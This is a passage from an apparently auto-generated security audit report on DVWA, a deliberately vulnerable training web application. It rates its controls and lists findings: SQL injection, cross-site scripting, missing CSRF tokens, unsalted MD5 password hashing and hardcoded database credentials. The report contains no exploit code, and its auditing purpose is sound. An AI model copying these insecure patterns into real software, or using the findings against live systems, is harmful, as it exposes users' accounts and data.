href="#f-017">F-017</a></span>, <span style="white-space:nowrap"><a href="#f-018">F-018</a></span>, <span style="white-space:nowrap"><a href="#f-019">F-019</a></span>, <span style="white-space:nowrap"><a href="#f-020">F-020</a></span>, <span style="white-space:nowrap"><a href="#f-021">F-021</a></span>, <span style="white-space:nowrap"><a href="#f-022">F-022</a></span>, <span style="white-space:nowrap"><a href="#f-023">F-023</a></span>, <span style="white-space:nowrap"><a href="#f-027">F-027</a></span>, <span style="white-space:nowrap"><a href="#f-030">F-030</a></span><br/><details><summary>14 Medium</summary>🟡 <a href="#f-040">F-040</a> - Hardcoded weak MariaDB root and application credentials<br/>🟡 <a href="#f-041">F-041</a> - Login lacks attempt throttling or lockout<br/>🟡 <a href="#f-042">F-042</a> - No login attempt limiting on brute-force form<br/>🟡 <a href="#f-057">F-057</a> - Request URI reflected unescaped into inline script string<br/>🟡 <a href="#f-058">F-058</a> - Reflected XSS of username on brute-force login<br/>🟡 <a href="#f-059">F-059</a> - Reflected XSS<br/>🟡 <a href="#f-060">F-060</a> - Reflected script injection bypassing permissive CSP<br/>🟡 <a href="#f-061">F-061</a> - Unvalidated JSONP callback reflected into script response<br/>🟡 <a href="#f-062">F-062</a> - Reflected XSS of username in test credentials page<br/>🟡 <a href="#f-063">F-063</a> - Reflected XSS<br/>🟡 <a href="#f-064">F-064</a> - Reflected cross-site scripting<br/>🟡 <a href="#f-065">F-065</a> - Reflected name parameter rendered without HTML encoding<br/>🟡 <a href="#f-066">F-066</a> - Stored XSS payloads accepted into guestbook entries<br/>🟡 <a href="#f-071">F-071</a> - Config backup with DB credentials copied into web root</details></td></tr>
<tr><td style="overflow-wrap:break-word"><strong>User accounts and password hashes</strong><br/>users table with names, MD5 password hashes and avatar; checked at login.</td><td style="overflow-wrap:break-word">Medium</td><td style="overflow-wrap:break-word">🔴&nbsp;<span style="white-space:nowrap"><a href="#f-005">F-005</a></span><br/>🟠&nbsp;<span style="white-space:nowrap"><a href="#f-011">F-011</a></span>, <span style="white-space:nowrap"><a href="#f-012">F-012</a></span>, <span style="white-space:nowrap"><a href="#f-013">F-013</a></span>, <span style="white-space:nowrap"><a href="#f-014">F-014</a></span>, <span style="white-space:nowrap"><a href="#f-015">F-015</a></span>, <span style="white-space:nowrap"><a href="#f-016">F-016</a></span>, <span style="white-space:nowrap"><a href="#f-017">F-017</a></span>, <span style="white-space:nowrap"><a href="#f-018">F-018</a></span>, <span style="white-space:nowrap"><a href="#f-019">F-019</a></span>, <span style="white-space:nowrap"><a href="#f-020">F-020</a></span>, <span style="white-space:nowrap"><a href="#f-021">F-021</a></span>, <span style="white-space:nowrap"><a href="#f-022">F-022</a></span>, <span style="white-space:nowrap"><a href="#f-023">F-023</a></span>, <span style="white-space:nowrap"><a href="#f-030">F-030</a></span><br/><details><summary>14 Medium</summary>🟡 <a href="#f-041">F-041</a> - Login lacks attempt throttling or lockout<br/>🟡 <a href="#f-042">F-042</a> - No login attempt limiting on brute-force form<br/>🟡 <a href="#f-051">F-051</a> - Hardcoded client secret and user password in API login<br/>🟡 <a href="#f-057">F-057</a> - Request URI reflected unescaped into inline script string<br/>🟡 <a href="#f-058">F-058</a> - Reflected XSS of username on brute-force login<br/>🟡 <a href="#f-059">F-059</a> - Reflected XSS<br/>🟡 <a href="#f-060">F-060</a> - Reflected script injection bypassing permissive CSP<br/>🟡 <a href="#f-061">F-061</a> - Unvalidated JSONP callback reflected into script response<br/>🟡 <a href="#f-062">F-062</a> - Reflected XSS of username in test credentials page<br/>🟡 <a href="#f-063">F-063</a> - Reflected XSS<br/>🟡 <a href="#f-064">F-064</a> - Reflected cross-site scripting<br/>🟡 <a href="#f-065">F-065</a> - Reflected name parameter rendered without HTML encoding<br/>🟡 <a href="#f-066">F-066</a> - Stored XSS payloads accepted into guestbook entries<br/>🟡 <a href="#f-068">F-068</a> - Legacy v1 user API discloses password hashes</details></td></tr>
</tbody>
</table>

*Sensitivity is assumed from the code, not set by your organization. No finding linked means that no finding is tied to this asset yet. It does not mean the asset is safe.*

---

## 5. Attack Surface

Network-reachable entry points by authentication requirement. Routes with the same findings share a row, worst first. Entry points without Critical or High findings are collapsed.

### 5.1 Unauthenticated Entry Points (0)

_None enumerated._

### 5.2 Authenticated Entry Points (0)

_None enumerated._

---

## 6. Security Architecture

This chapter is organized by security-control category. Findings are listed only where the affected control is described.

_Cataloged controls: 17 total - 2 adequate, 4 partial, 7 weak, 3 unsafe, 1 missing._

**How to read the verdicts.** Every control category (and every sub-control below it) carries exactly one status. The two red verdicts do **not** mean the same thing - this is the distinction that decides what you have to do about a finding:

| Status | Meaning | What to do |
|----------|------------------------------------|----------------------|
| 🔴 Unsafe | Present and relied upon, but defeated or<br/>trivially bypassable | Fix the existing control |
| 🔴 Missing | Control was never built | Add the control |
| 🟠 Weak | Present, but has exploitable gaps | Strengthen it |
| 🟡 Partial | Present, but with meaningful gaps | Close the gap |
| 🟢 Adequate | Control is present and sound | Nothing, keep it |

So "🔴 Unsafe" on a control category does *not* mean the control is absent - it means the control exists but does not hold (e.g. an `MD5` password hash, a raw-SQL query path, a hardcoded signing key). "🔴 Missing" is reserved for controls that were never built (e.g. no `Content-Security-Policy` header).

### 6.1 Security Control Overview

<!-- §6.1 MECHANICAL-FROZEN — DO NOT EDIT (overview table is pregenerator-owned) -->

| Control category | Verdict | Findings | Weakest controls |
|----------------------|--------|----------------|----------------------|
| [6.11 Operations Runtime and Supply Chain Controls](#611-operations-runtime-and-supply-chain-controls) | 🔴 Unsafe | 8 | CI secrets handling, Build pipeline and<br/>dependency controls |
| [6.9 Cryptography Secrets and Data Protection](#69-cryptography-secrets-and-data-protection) | 🔴 Unsafe | 6 | Database credential management, Password<br/>hashing |
| [6.7 Output Encoding and Rendering Controls](#67-output-encoding-and-rendering-controls) | 🟠 Weak | 13 | None catalogued |
| [6.5 Query Construction and Data Access Controls](#65-query-construction-and-data-access-controls) | 🟠 Weak | 11 | Login SQL query construction |
| [6.10 File Parser and Outbound Request Controls](#610-file-parser-and-outbound-request-controls) | 🟠 Weak | 7 | `reCAPTCHA` outbound verification |
| [6.2 Identity and Authentication Controls](#62-identity-and-authentication-controls) | 🟠 Weak | 5 | None catalogued |
| [6.4 Authorization Controls](#64-authorization-controls) | 🟠 Weak | 4 | None catalogued |
| [6.3 Session and Token Controls](#63-session-and-token-controls) | 🟠 Weak | 2 | Anti-CSRF token on login |
| [6.8 Browser and Cross-Origin Controls](#68-browser-and-cross-origin-controls) | 🟠 Weak | 2 | None catalogued |

<!-- §6.1 MECHANICAL-FROZEN END -->

### 6.2 Identity and Authentication Controls

<a id="ctrl-identity-and-authentication-controls"></a>


**Systemic weaknesses:** [W-009](#w-009)
**Verdict:** 🟠 Weak

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.2.1 Password Login](#621-password-login)

**Implemented controls:** Password login form with per-session `user_token` check, `mysqli_real_escape_string` on login input, `MD5`-hashed credential comparison.

**Assessment:** Password login is the only authentication flow detected. It has no throttling or lockout (🟡 [F-041](#f-041), 🟡 [F-042](#f-042)), a string-built query (🟠 [F-017](#f-017)), and credentials in GET query strings (🟡 [F-046](#f-046)). Password change skips the current password (🟠 [F-006](#f-006)). Each successful flow ends in a server-side session, described in [§6.3 Session and Token Controls](#63-session-and-token-controls).

<!-- §6.2 AUTH-MECHANISMS-FROZEN — deterministic inventory, pregenerator-owned. DO NOT EDIT. -->
**Authentication mechanisms.** Each name links to the section that assesses it.

<table style="table-layout:fixed;width:100%;max-width:1240px">
<colgroup><col width="40%" style="width:40%"><col width="16%" style="width:16%"><col width="44%" style="width:44%"></colgroup>
<thead><tr><th>Mechanism</th><th>Status</th><th>Findings</th></tr></thead>
<tbody>
<tr><td style="overflow-wrap:break-word"><a href="#69-cryptography-secrets-and-data-protection">Password storage (hashing)</a></td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">🔴 Unsafe</span></td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-002">F-002</a></span>, <span style="white-space:nowrap"><a href="#f-030">F-030</a></span></td></tr>
<tr><td style="overflow-wrap:break-word"><a href="#62-identity-and-authentication-controls">Password login</a></td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">🟠 Weak</span></td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-017">F-017</a></span><br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-042">F-042</a></span>, <span style="white-space:nowrap"><a href="#f-058">F-058</a></span></td></tr>
<tr><td style="overflow-wrap:break-word"><a href="#62-identity-and-authentication-controls">Password reset / change</a></td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">🟠 At risk</span></td><td style="overflow-wrap:break-word">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-006">F-006</a></span></td></tr>
<tr><td style="overflow-wrap:break-word"><a href="#62-identity-and-authentication-controls">User registration</a></td><td style="overflow-wrap:break-word"><span style="white-space:nowrap">🟡 At risk</span></td><td style="overflow-wrap:break-word">🟡&nbsp;<span style="white-space:nowrap"><a href="#f-082">F-082</a></span></td></tr>
</tbody>
</table>

_Also checked, not detected on this codebase: JWT / bearer-token session, Session-token storage, Multi-factor authentication (TOTP / 2FA), OAuth / OIDC federated login._

<!-- §6.2 AUTH-MECHANISMS-FROZEN END -->

**Findings in this category without a control:**

- 🟠 [F-006](#f-006) — Password change does not require the current password
- 🟠 [F-024](#f-024) — Unauthenticated database reset in setup page
- 🟠 [F-030](#f-030) — Unsalted MD5 password hashing
- 🟡 [F-041](#f-041) — Login lacks attempt throttling or lockout
- 🟡 [F-042](#f-042) — No login attempt limiting on brute-force form

<a id="password-login"></a>
#### 6.2.1 Password Login

**Status:** 🟠 Weak - the login checks a CSRF token, but attempts are unthrottled and the lookup query is string-built.

The brute-force login handler reads username and password from the request, validates the form token, and looks the user up in the `users` table by `MD5` password hash. A successful match starts the session.

The diagram shows the positive password-login path, including the CSRF token check and the credential lookup:


**Security assessment**

Several independent weaknesses sit on the login path:

- Unthrottled login attempts allow unlimited password guessing (🟡 [F-041](#f-041), 🟡 [F-042](#f-042)).
- The lookup query is string-built, so injection reaches the credential check (🟠 [F-017](#f-017)).
- Passwords travel in GET query strings and land in logs and history (🟡 [F-046](#f-046)).
- The username is echoed back without encoding (🟡 [F-058](#f-058)).
- Password change accepts a new password without the current one (🟠 [F-006](#f-006)).


**Relevant findings**

- None linked to this control; see the other findings of this category.

### 6.3 Session and Token Controls

<a id="ctrl-session-and-token-controls"></a>

**Verdict:** 🟠 Weak

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.3.1 Anti-CSRF token on login](#631-anti-csrf-token-on-login)

**Implemented controls:** Anti-CSRF token on login.

**Assessment:** Sessions are server-side, and the only catalogued control is the anti-CSRF token on the login form. Session fixation (🟡 [F-044](#f-044)) and continued use of withdrawn rights (🟡 [F-100](#f-100)) show that session lifecycle handling is weak.

**Findings in this category without a control:**

- 🟡 [F-044](#f-044) — Session fixation
- 🟡 [F-100](#f-100) — User keeps using a withdrawn right

<a id="anti-csrf-token-on-login"></a>
#### 6.3.1 Anti-CSRF token on login

**Status:** 🟢 Adequate - the login form token is per-session and regenerated on each render, though the validation code was not inspected.

The login form embeds a per-session `user_token`. On POST, `checkToken` compares the submitted value with the session token, and a fresh token is generated whenever the form is rendered.

The diagram shows the token round trip on the login form:


**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): The login form POST validates a per-session user_token via checkToken against the session token. The token is regenerated on each form render. The checkToken implementation was not inspected. -->
The token check itself is sound in design, but its implementation was not inspected, and the protection stops at the login form:

- Other state-changing requests carry no token (🟠 [F-001](#f-001)).
- A weaker CSRF check at lower difficulty levels can be bypassed (🟠 [F-025](#f-025)).
- Session fixation is possible, so the session identity is not renewed safely (🟡 [F-044](#f-044)).


**Relevant findings**

- None linked to this control; see the other findings of this category.

### 6.4 Authorization Controls

<a id="ctrl-authorization-controls"></a>


**Systemic weaknesses:** [W-004](#w-004), [W-005](#w-005), [W-011](#w-011), [W-012](#w-012)
**Verdict:** 🟠 Weak

<!-- The line below is mechanically derived from the section's default mechanism — LLM must not re-author it. -->
**Controls covered:**

- [6.4.1 Route and Object Authorization](#641-route-and-object-authorization)

**Implemented controls:** Admin-role gating on user-management endpoints, a static-token check on the object endpoint, a CAPTCHA state check.

**Assessment:** Authorization decisions rely on client-controlled inputs and incomplete gates. Admin-only user endpoints are not reliably gated (🟠 [F-039](#f-039)), and object access hinges on a static public token (🟡 [F-081](#f-081)). The unauthenticated user API permits mass assignment (🟡 [F-082](#f-082)), and CAPTCHA state comes from a client field (🟡 [F-050](#f-050)).

<a id="route-and-object-authorization"></a>
#### 6.4.1 Route and Object Authorization

**Status:** 🟠 Weak - checks exist but trust client-supplied values and leave user-management endpoints exposed.

This control decides who may change user data and reach protected functions. Admin user-management endpoints, the user API, and the object lookup page each apply their own access check.

**Security assessment**

Access checks depend on values the caller controls. Admin-only user endpoints are not reliably restricted (🟠 [F-039](#f-039)). The IDOR demo accepts a static, publicly known token (🟡 [F-081](#f-081)). The unauthenticated user API through `UserController.php` accepts attacker-chosen fields, enabling mass assignment (🟡 [F-082](#f-082)). CAPTCHA progress is read from a client field (🟡 [F-050](#f-050)).

**Relevant findings**

- 🟠 [F-039](#f-039) — Admin-only user endpoints gated
- 🟡 [F-050](#f-050) — CAPTCHA state trusted from client-supplied field
- 🟡 [F-081](#f-081) — IDOR guarded by static public token
- 🟡 [F-082](#f-082) — Unauthenticated user API allows mass assignment

### 6.5 Query Construction and Data Access Controls

<a id="ctrl-query-construction-and-data-access-controls"></a>


**Systemic weaknesses:** [W-002](#w-002)
**Verdict:** 🟠 Weak

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.5.1 Login SQL query construction](#651-login-sql-query-construction)

**Implemented controls:** Login SQL query construction.

**Assessment:** Queries are built as strings and protected only by escaping. Injection appears across login, update, and many vulnerability modules, including 🔴 [F-005](#f-005) — SQL injection in user detail update endpoint, 🟠 [F-017](#f-017) — SQL injection in brute-force login query, 🟠 [F-018](#f-018) — Second-order SQL injection, and 🟠 [F-020](#f-020) — SQL injection in unquoted numeric context despite escaping, the last in an unquoted numeric context where escaping does not help.

**Findings in this category without a control:**

- 🔴 [F-005](#f-005) — SQL injection in user detail update endpoint
- 🟠 [F-014](#f-014) — SQL injection
- 🟠 [F-015](#f-015) — SQL injection
- 🟠 [F-016](#f-016) — SQL injection
- 🟠 [F-017](#f-017) — SQL injection in brute-force login query
- 🟠 [F-018](#f-018) — Second-order SQL injection
- 🟠 [F-019](#f-019) — SQL injection
- 🟠 [F-020](#f-020) — SQL injection in unquoted numeric context despite escaping
- 🟠 [F-021](#f-021) — Blind SQL injection
- 🟠 [F-022](#f-022) — Blind SQL injection
- 🟠 [F-023](#f-023) — Blind SQL injection

<a id="login-sql-query-construction"></a>
#### 6.5.1 Login SQL query construction

**Status:** 🟠 Weak - login input is escaped, not parameterized, so the query remains injectable.

The login handler passes input through `mysqli_real_escape_string` and interpolates the result into a SQL string. No prepared statement is used.

The diagram shows the intended login query path:


**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): Login input is escaped with mysqli_real_escape_string and interpolated into a string-built SQL query rather than a prepared statement. Escaping is the only defense. It is weaker than parameterization. -->
Escaping is the only defense here, and it is weaker than parameterization. Related findings show where it fails:

- The brute-force login query is injectable (🟠 [F-017](#f-017)).
- A numeric context stays injectable even with escaping (🟠 [F-020](#f-020)).
- Stored values are re-used in later queries, giving second-order injection (🟠 [F-018](#f-018)).
- Blind injection variants exist at every difficulty level (🟠 [F-021](#f-021), 🟠 [F-022](#f-022), 🟠 [F-023](#f-023)).


**Relevant findings**

- None linked to this control; see the other findings of this category.

### 6.6 Input Boundary Validation Controls

<a id="ctrl-input-boundary-validation-controls"></a>

**Verdict:** 🟠 Weak

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.6.1 Validation Approach](#661-validation-approach)

**Implemented controls:** Escaping on SQL input, literal script-tag stripping, redirect allow and deny checks, MIME type check on uploads.

**Assessment:** Validation is pattern-based and easy to bypass: the redirect checks (🟡 [F-047](#f-047), 🟡 [F-049](#f-049)), the upload MIME check (🟠 [F-036](#f-036)), and the include parameter (🟠 [F-034](#f-034)) each accept crafted input. No catalogued shared validation layer exists.

<a id="validation-approach"></a>
#### 6.6.1 Validation Approach

**Status:** 🟠 Weak - no shared validation layer is catalogued, and the per-module checks seen in findings are bypassable.

Each vulnerability module validates its own inputs with local checks such as redirect substring tests, script-tag stripping, and a MIME type test on uploads.

**Security assessment**

Local checks trust client input or match narrow patterns:

- Redirect targets are checked by substring or scheme denylist, both bypassable (🟡 [F-047](#f-047), 🟡 [F-049](#f-049)).
- Upload type relies on the client-supplied MIME type (🟠 [F-036](#f-036)).
- The page parameter reaches `include` unchecked at lower levels (🟠 [F-032](#f-032)).

**Relevant findings**

- None.

### 6.7 Output Encoding and Rendering Controls


**Systemic weaknesses:** [W-006](#w-006)
**Verdict:** 🟠 Weak

<!-- The line below is mechanically derived from the section's default mechanism — LLM must not re-author it. -->
**Controls covered:**

- [6.7.1 Output Encoding and Client-Side Rendering](#671-output-encoding-and-client-side-rendering)

**Implemented controls:** `htmlspecialchars` encoding at the impossible difficulty level, literal script-tag stripping at medium and high levels.

**Assessment:** Output encoding is applied only at the strictest level. Elsewhere, request values are written into HTML and inline scripts, producing stored (🟠 [F-011](#f-011), 🟠 [F-012](#f-012)), DOM-based (🟠 [F-013](#f-013)), and reflected XSS (🟡 [F-059](#f-059), 🟡 [F-064](#f-064)). Blacklist filters are bypassable.

**Findings in this category without a control:**

- 🟡 [F-059](#f-059) — Reflected XSS
- 🟡 [F-060](#f-060) — Reflected script injection bypassing permissive CSP
- 🟡 [F-061](#f-061) — Unvalidated JSONP callback reflected into script response
- 🟡 [F-062](#f-062) — Reflected XSS of username in test credentials page
- 🟡 [F-063](#f-063) — Reflected XSS
- 🟡 [F-064](#f-064) — Reflected cross-site scripting
- 🟡 [F-065](#f-065) — Reflected name parameter rendered without HTML encoding
- 🟡 [F-066](#f-066) — Stored XSS payloads accepted into guestbook entries

<a id="output-encoding-and-client-side-rendering"></a>
#### 6.7.1 Output Encoding and Client-Side Rendering

**Status:** 🟠 Weak - encoding exists only at the strictest level, while other levels render raw input.

Pages show user-supplied names, messages, and URL values back to the visitor. Most modules write these values into the page directly, and only the strictest level encodes them.

**Security assessment**

Stored, reflected, and DOM-based XSS all appear. Guestbook and name fields store payloads (🟠 [F-011](#f-011), 🟠 [F-012](#f-012)). Client script writes the URL language parameter into the page with `document.write` (🟠 [F-013](#f-013)). The username on the login page is echoed raw (🟡 [F-058](#f-058)), and the request URI lands in an inline script string (🟡 [F-057](#f-057)). Filters strip only a literal script tag or one pattern, so variants pass.

**Relevant findings**

- 🟠 [F-011](#f-011) — Stored XSS
- 🟠 [F-012](#f-012) — Stored XSS
- 🟠 [F-013](#f-013) — DOM-based XSS from URL default parameter written
- 🟡 [F-057](#f-057) — Request URI reflected unescaped into inline script string
- 🟡 [F-058](#f-058) — Reflected XSS of username on brute-force login

### 6.8 Browser and Cross-Origin Controls


**Systemic weaknesses:** [W-005](#w-005)
**Verdict:** 🟠 Weak

<!-- The line below is mechanically derived from the section's default mechanism — LLM must not re-author it. -->
**Controls covered:**

- [6.8.1 Browser Security Headers and CORS/CSRF Posture](#681-browser-security-headers-and-corscsrf-posture)

**Implemented controls:** Per-session CSRF token on the login form, a `Content-Security-Policy` header (permissive, see 🟡 [F-060](#f-060)).

**Assessment:** Browser-side protection is partial. State-changing requests mostly lack an anti-CSRF token (🟠 [F-001](#f-001)), the CSRF check at lower levels is bypassable (🟠 [F-025](#f-025)), and the CSP is permissive enough for script injection (🟡 [F-060](#f-060)).

<a id="browser-security-headers-and-corscsrf-posture"></a>
#### 6.8.1 Browser Security Headers and CORS/CSRF Posture

**Status:** 🟠 Weak - CSRF protection covers the login form only, and the CSP does not stop script injection.

The login form carries a hidden token that stops other sites from submitting it on a user's behalf. Pages also send a `Content-Security-Policy` header.

**Security assessment**

Token coverage is thin and the header is lenient:

- State changes such as password change run without any anti-CSRF token (🟠 [F-001](#f-001)).
- The medium-level token check can be bypassed (🟠 [F-025](#f-025)).
- The permissive CSP lets reflected script through (🟡 [F-060](#f-060)).

**Relevant findings**

- 🟠 [F-001](#f-001) — Missing Anti-CSRF Token on State Changes
- 🟠 [F-025](#f-025) — CSRF check bypass

### 6.9 Cryptography Secrets and Data Protection


**Systemic weaknesses:** [W-007](#w-007), [W-008](#w-008)
**Verdict:** 🔴 Unsafe

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.9.1 Database credential management](#691-database-credential-management)
- [6.9.2 Database data persistence and protection at rest](#692-database-data-persistence-and-protection-at-rest)
- [6.9.3 Password Hashing and Credential Storage](#693-password-hashing-and-credential-storage)
- [6.9.4 Database credential and secret management](#694-database-credential-and-secret-management)

**Implemented controls:** Database credential management, Database data persistence and protection at rest, Password hashing, Database credential and secret management.

**Assessment:** Secrets and hashes are present but defeated. Passwords use unsalted `MD5` (🟠 [F-002](#f-002) (Broken `MD5` hashing used for stored passwords without salt or strength policy), 🟠 [F-030](#f-030) (Unsalted `MD5` password hashing)), database credentials are committed in plaintext (🟡 [F-040](#f-040)), and symmetric keys are hardcoded (🟠 [F-029](#f-029), 🟡 [F-043](#f-043)). Home-built XOR encryption (🟡 [F-069](#f-069)) adds to the gaps.

**Findings in this category without a control:**

- 🟠 [F-029](#f-029) — Hardcoded symmetric encryption keys in source
- 🟡 [F-040](#f-040) — Hardcoded weak MariaDB root and application credentials
- 🟡 [F-043](#f-043) — Hardcoded encryption key and static secret allow API token
- 🟡 [F-051](#f-051) — Hardcoded client secret and user password in API login
- 🟡 [F-052](#f-052) — Static access token accepted from the URL query string
- 🟡 [F-069](#f-069) — Repeating-key XOR used as message encryption

<a id="database-credential-management"></a>
#### 6.9.1 Database credential management

**Status:** 🔴 Unsafe - database passwords are weak, predictable and committed in plaintext in `compose.yml`.

MariaDB root and application passwords are set as plain environment values in `compose.yml` and passed to the database container.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): MariaDB root and application passwords are hardcoded in plaintext in compose.yml environment (root password 'dvwa'; user password is a literal 8-char value). Credentials are weak, predictable and committed to source. -->
Credentials live in source control and cannot be rotated without editing it:

- The root password is `dvwa` and the user password is a short literal (🟡 [F-040](#f-040)).
- The same values are flagged as hardcoded in compose (🟠 [F-027](#f-027)).
- A config backup with these credentials is copied into the web root (🟡 [F-071](#f-071)).

**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="database-data-persistence-and-protection-at-rest"></a>
#### 6.9.2 Database data persistence and protection at rest

**Status:** 🟠 Weak - data sits on a named volume with no visible encryption or backup.

Database files persist in a named Docker volume attached to the MariaDB container.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): Data persists in a named volume with no encryption at rest or backup configuration visible in this file. Recovery and backup controls were not found here. -->
Persistence is configured, protection is not visible in this file:

- No encryption at rest is configured.
- No backup or recovery configuration was found.
- Host-level volume protection was not assessed.

**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="password-hashing"></a><a id="password-hashing-and-credential-storage"></a>
#### 6.9.3 Password Hashing and Credential Storage

**Status:** 🔴 Unsafe - passwords are hashed with unsalted `MD5`, which is cryptographically defeated.

Passwords are hashed with `MD5` before storage in the `users` table. The setup routine seeds accounts with well-known weak passwords hashed the same way.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): Passwords are hashed with unsalted MD5. The setup seeds the users table with well-known weak passwords hashed with MD5. This is a relied-upon mechanism that is cryptographically defeated. -->
The hashing scheme is the control that fails, and the seed data compounds it:

- `MD5` has no salt or work factor, so a dumped table is cracked quickly (🟠 [F-002](#f-002) — Broken MD5 hashing used for stored passwords without salt or strength policy (Broken `MD5` hashing used for stored passwords without salt or strength policy), 🟠 [F-030](#f-030) — Unsalted MD5 password hashing (Unsalted `MD5` password hashing)).
- Seeded accounts use well-known passwords (🟠 [F-009](#f-009)).
- A legacy user API returns password hashes to callers (🟡 [F-068](#f-068)).

**Relevant findings**

- None linked to this control; see the other findings of this category.

<a id="database-credential-and-secret-management"></a>
#### 6.9.4 Database credential and secret management

**Status:** 🟠 Weak - credentials sit in plain compose environment values rather than a secrets store.

`compose.yml` supplies the MariaDB root and application passwords as plain environment values. No secrets file or external store is referenced.

**Security assessment**

<!-- Model assessment (facts the narrative must not contradict): compose.yml hardcodes the MariaDB root password and the application DB user password in plain environment values. This is probably intentional for a training app, but it is not a secrets-management control. -->
This is probably intentional for a training app, but it is not a secrets-management control:

- Passwords are committed with the repository (🟠 [F-027](#f-027), 🟡 [F-040](#f-040)).
- The application also embeds client secrets and keys in source (🟡 [F-051](#f-051), 🟡 [F-043](#f-043)).
- Rotation requires a code change and redeploy.

**Relevant findings**

- None linked to this control; see the other findings of this category.

### 6.10 File Parser and Outbound Request Controls

<a id="ctrl-file-parser-and-outbound-request-controls"></a>


**Systemic weaknesses:** [W-001](#w-001), [W-003](#w-003), [W-016](#w-016), [W-017](#w-017)
**Verdict:** 🟠 Weak

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.10.1 reCAPTCHA outbound verification](#6101-recaptcha-outbound-verification)

**Implemented controls:** `reCAPTCHA` outbound verification.

